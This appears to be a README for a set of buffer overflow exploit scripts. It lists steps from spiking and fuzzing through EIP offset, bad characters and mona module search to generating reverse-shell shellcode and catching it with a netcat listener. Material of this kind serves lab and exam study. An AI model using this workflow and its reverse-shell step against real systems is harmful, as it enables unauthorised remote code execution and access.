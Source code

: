 
## Usage Guide:

### Spiking -> 
Edit spiking.spk with the command you want to spike
```
bash spiking.sh <ip> <port>
```

### Fuzzing ->
	Inside python fuzzing.py 
	Edit:
	```
	1. ip
	2. port
	3. command
	```
	>python fuzzing.py
	**Keep the program crash output _byte size_**

### Offset -> 
	```
	bash pattern.sh <byte size>
	```
	copy the pattern and paste in **offset.py** and change the **ip** **port** & **command**.
	> python offset.py
	> bash offset_value.sh <byte size> <pattern form Immunity Debugger>
	**Keep the program output _actual size**

### OverWrite EIP ->
	Inside overWriteEIP.py
	Edit:
	```
	1. Actual value
	2. ip
	3. port
	4. command
	```
	> python overWriteEIP.py

### Finding bad char -> 
	Inside badchar.py
	Edit:
	```
	1. Actual value
	2. ip
	3. port
	4. command
	```
	> python badchar.py
	**right click on ESP register vlaue and follow in dump and check for bad characters** 

### Finding right module -> 
	!mona module "<with dll with all false> "

### Generate shell code ->
	> bash rev_shell.sh <your ip> <your port>
	**Keep the output _payload_**

### Gain access -> 
	Inside final.py
	Edit:
	```
	1. Payload
	2. Actual value
	3. ip
	4. port
	5. command
	```
	Now Start netcat :
	> nc -lvnp <your ip> <your port>
	And Finally run:
	>python final.py


